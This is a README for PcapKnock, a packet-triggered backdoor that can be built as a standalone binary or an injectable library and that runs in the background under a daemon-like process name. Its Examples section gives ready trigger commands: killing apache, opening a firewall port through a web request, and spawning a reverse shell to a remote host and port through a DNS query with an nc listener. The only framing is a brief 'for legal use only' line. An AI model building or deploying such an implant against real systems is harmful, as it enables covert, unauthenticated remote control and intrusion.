 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

For legal use only.

Usage
-----
In most cases, the [`build.sh`](./build.sh) script is sufficient to build:
```bash
$ ./build.sh
C Flags:      "-O2 -Wall --pedantic"
Defines:      ""
Linker Flags: "-lpcap -lpthread"
Building library...pcapknock.so
Building static binary...pcapknock.static
Building dynamic binary...pcapknock.dynamic
```
This will generate three files:
- `pcapknock.so`, an injectable library which spawns a thread on load
- `pcapknock.static`, a statically-linked standalone binary
- `pcapknock.dynamic`, a dynamically-linked standalone binary

Once running, by default PcapKnock will listen on all interfaces (on Linux),
for packets containing one of two triggers, either `COMMAND<command>COMMAND` to
run a command or `CALLBACK<address>:<port>CALLBACK` to spawn a reverse shell to
the given address and port.  See the [Configuration](#Configuration) section
for more information on changing defaults.

Examples
--------
The following examples assume PcapKnock is configured with its default
settings.

Kill apache on 192.168.0.2:
```bash
# Port doesn't matter as long as a PSH is made
echo COMMANDpkill apache2COMMAND | nc -u 192.168.0.2 22
```
Punch a hole in the firewall using a legit web request:
```bash
curl --data 'COMMANDiptables -I INPUT -p tcp --dport 22 -j ACCEPTCOMMAND' https://192.168.0.2
```
Spawn a reverse shell to `192.168.0.3:4444` using a DNS request which will be
recursed to example.com:
```bash
dig CALLBACK192.168.0.3:4444CALLBACK.example.com & nc -nvl 4444
```

Configuration
-------------
Configuration takes place in the form of C defines.  Defaults are set in
[`pcapknock.h`](./pcapknock.h), but can be changed at compile time by passing
`-DOPTION=value` to the compiler.  The included build script passes whatever
is in the `DEFINES` environment variable to the compiler to enable compile-time
configuration.  For convience, the `DEVICE` environment variable may be set to
change the device on which traffic is monitored.

The configurable settings are:

Setting       | Default    | Description
--------------|------------|---------------------------------
`DEVICE`      | `any`      | Device on which to sniff packets
`SHELLNAME`   | `kexecd`   | Shell process name (i.e. `argv[0]`)
`CBMARKER`    | `CALLBACK` | Marker for reverse shell addresses
`CMDMARKER`   | `COMMAND`  | Marker for commands
| | |It is unlikely the below will need to be changed |
`MAXKNOCK`    | `4096`     | Maximum command/address length
`CLMAXFD`     | `10240`    | Maximum filedescriptor number to close after fork
`CONSTRUCTOR` | _unset_    | If defined, runs as a constructor (for injection)
`ERROUT`      | _unset_    | If defined, outputs error messages to stdout

Only the first four will likely need to be changed in most cases.
